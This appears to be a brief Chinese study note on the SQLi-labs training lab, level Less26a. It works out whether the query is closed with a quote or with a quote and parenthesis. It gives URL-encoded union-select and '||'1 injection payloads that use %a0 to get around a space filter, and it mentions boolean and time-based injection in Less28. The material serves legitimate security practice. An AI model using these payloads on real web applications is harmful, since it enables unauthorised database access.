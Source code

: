 # SQLi-lab Less26a 输入？id=1’ 报错，输入 ？id=1’）也会报错

1. 两种都会报错，第一种是因为为没有闭合后面的括号，会产生语法错误；第二种是因为本身会产生注入点。
2. 判别方法：通过union 
   * ?id=1%27%a0union%a0select%a01,2,3||%271   （第一种，会报错）
   * ?id=1%27)%a0union%a0select%a01,2,3||(%271（第二种，不会报错）
3. 为什么?id=1'||'1            ?id=1')||('1     这两个都会正常呢？
   * ?id=1'||'1      对应的语句  ('**1'||'1**') SQL语句闭合，不会报错
   * ?id=1')||('1    对应的语句  ('**1')||('1**') SQL语句闭合，不会报错
4. 昨天还在Less28那关疑问布尔注入，和延时注入‘ 和’)都可以，可能刚好他的SQL语句可以闭合（昨天用的‘ ）




